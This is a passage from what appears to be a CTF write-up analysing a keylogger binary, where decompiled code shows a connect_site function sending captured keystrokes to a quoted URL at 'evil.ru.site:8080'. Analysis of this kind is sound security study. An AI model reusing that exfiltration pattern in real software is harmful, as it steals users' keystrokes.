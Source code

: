 <img src="/assets/img/post/2020-10-09-hackin-ctf/HackIN-19.png" style="width: 75%" >

Another piece of code that caught my attention was on line 72 in a function called `connect_site`. When you double-click on it and view the decompiled code, you can see right away that on line 17 our keystrokes are being sent to `"evil.ru.site:8080/dump/time=%d&keystroke=%s"`

<img src="/assets/img/post/2020-10-09-hackin-ctf/HackIN-20.png" style="width: 75%" >

What now? Well now we test to see what happens if we manually execute `explorer.exe`. It seems to start a server on port 8080 so when you navigate to `evil.ru.site:8080` in the browser you can see this:

<img src="/assets/img/post/2020-10-09-hackin-ctf/HackIN-21.png" style="width: 75%" >
